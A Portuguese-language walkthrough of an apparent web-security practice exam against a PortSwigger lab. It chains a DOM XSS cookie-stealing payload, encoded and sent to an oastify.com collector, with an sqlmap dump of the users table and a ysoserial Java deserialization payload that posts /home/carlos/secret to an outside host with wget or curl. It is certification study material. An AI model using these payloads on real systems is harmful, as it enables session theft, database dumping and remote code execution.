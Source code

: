 # Exame Prático 1

Tente fazer o exame sem olhar nenhum Walkthrough primeiro. Se você travar, aí sim procure por algumas dicas

Não se preocupe caso você não consiga fazer esses simulados de primeira, eu mesmo travei nos dois testes na primeira tentativa de cada.

<br>

## Etapa 1 - Acesso Inicial

O arquivo `searchResults.js` parece vulnerável à XSS.
```
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
};
```

Ao testar payloads comuns, eles funcionam:
```
"-alert()}//

"+eval(alert(1))}//

xss","test":alert(1)}//
```

Mas ao tentar extrair os cookies, somos bloqueados:
```
"-prompt(document.cookie)-"
```

Para bypassar isso, podemos usar esse payload:
```
"+eval("alert(window["document"]["cookie"])")}//
```

Para enviar para nós:
```
"+eval(atob("fetch(`https://qlfck5tq1bovu1ydd178jrxga7gy42sr.oastify.com/?jsonc=` + window["document"]["cookie"])"))}//
```

Mas é sempre bom encodar em Base64 e depois em URL para evitar problemas com encoding:
```
"+eval(atob("ZmV0Y2goYGh0dHBzOi8vcWxmY2s1dHExYm92dTF5ZGQxNzhqcnhnYTdneTQyc3Iub2FzdGlmeS5jb20vP2pzb25jPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ=="))}//

%22%2b%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%59%47%68%30%64%48%42%7a%4f%69%38%76%63%57%78%6d%59%32%73%31%64%48%45%78%59%6d%39%32%64%54%46%35%5a%47%51%78%4e%7a%68%71%63%6e%68%6e%59%54%64%6e%65%54%51%79%63%33%49%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%76%50%32%70%7a%62%32%35%6a%50%57%41%67%4b%79%42%33%61%57%35%6b%62%33%64%62%49%6d%52%76%59%33%56%74%5a%57%35%30%49%6c%31%62%49%6d%4e%76%62%32%74%70%5a%53%4a%64%4b%51%3d%3d%22%29%29%7d%2f%2f
```

Entregue o payload para a vítima atráves do servidor de exploração:
```
<script>
document.location = "https://0a1b007e035ef66d80af8a3700b000d7.web-security-academy.net/?SearchTerm=%22%2b%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%59%47%68%30%64%48%42%7a%4f%69%38%76%63%57%78%6d%59%32%73%31%64%48%45%78%59%6d%39%32%64%54%46%35%5a%47%51%78%4e%7a%68%71%63%6e%68%6e%59%54%64%6e%65%54%51%79%63%33%49%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%76%50%32%70%7a%62%32%35%6a%50%57%41%67%4b%79%42%33%61%57%35%6b%62%33%64%62%49%6d%52%76%59%33%56%74%5a%57%35%30%49%6c%31%62%49%6d%4e%76%62%32%74%70%5a%53%4a%64%4b%51%3d%3d%22%29%29%7d%2f%2f"
</script>
```

<br>

## Etapa 2 - Escalação de Privilégios

Ao utilizar aspas no parâmetro `DATE`, um error é retornado.
```
https://0a1b007e035ef66d80af8a3700b000d7.web-security-academy.net/advanced_search?SearchTerm=aaa&organize_by=DATE'&blogArtist=aa
```

Podemos usar o SQLMap para extrair a senha do administrator:
```
sqlmap -r request.txt --level 5 --risk 3 -batch -p 'organize_by' -D public -T users --dump
```

> [!NOTE]  
> Se você copiar a request do Burp na mão para o arquivo TXT, lembre-se de mudar o header Host adicionando 'https://' como sufixo.

<br>

## Etapa 3 - Exfiltração de Dados

Note que o cookie tem um formato diferente.

Utilize a extensão Java Deserialization Scanner para identificar que o cookie está vulnerável e utiliza CommonsCollection, então gere o payload com:
```
java -jar ysoserial-all.jar CommonsCollections6 'wget --post-file /home/carlos/secret xghjfcoxwij2p8tk882feysn5eb5zwzko.oastify.com' | gzip -f | base64 -w0
```

Lembre de encodar em URL. Também é possível utilizar esse comando:
```
CommonsCollections6 'curl --data @/home/carlos/secret BURP.oastify.com'
```
